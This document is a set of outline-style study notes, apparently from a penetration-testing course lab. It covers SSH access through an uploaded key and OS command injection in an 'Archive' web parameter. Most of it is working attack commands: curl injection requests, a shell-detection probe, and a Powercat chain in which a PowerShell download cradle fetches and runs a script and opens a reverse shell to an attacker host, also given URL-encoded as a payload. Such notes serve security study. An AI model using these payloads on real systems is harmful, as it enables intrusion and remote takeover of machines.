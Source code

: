 - Using Non-Executable Files
	- Example
		- ssh-keygen
		- cat fileup.pub > authorized keys
		- ![[Pasted image 20240225221910.png]]
		- rm ~/.ssh/known_hosts
		- ssh -p 2222 -i fileup root@mountaindesserts.com
- OS Command Injection
	- Example
		- Using "Archive" as vulnerability
			- curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive
			- curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive
			- curl -X POST --data 'Archive=git version' http://192.168.50.189:8000/archive
				- If Linux, wont say linux
		- URL Encode two commands
			- curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive
		- Determine if Powershell or CMD
			- (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
		- URL Encode
			- curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
		- Powercat
			- Powershell Netcat listener in kali

			- Copy Powercat to home directory
				- cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
			- Start up py server
				- python3 -m http.server 80
			-  Start up  netcat
				- nc -lvnp 4444
			- Use PowerShell download cradle to load Powercat function contained in powercat.ps1 && use PowerCat to create reverse shell
				- IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
			- Encoded
				- curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive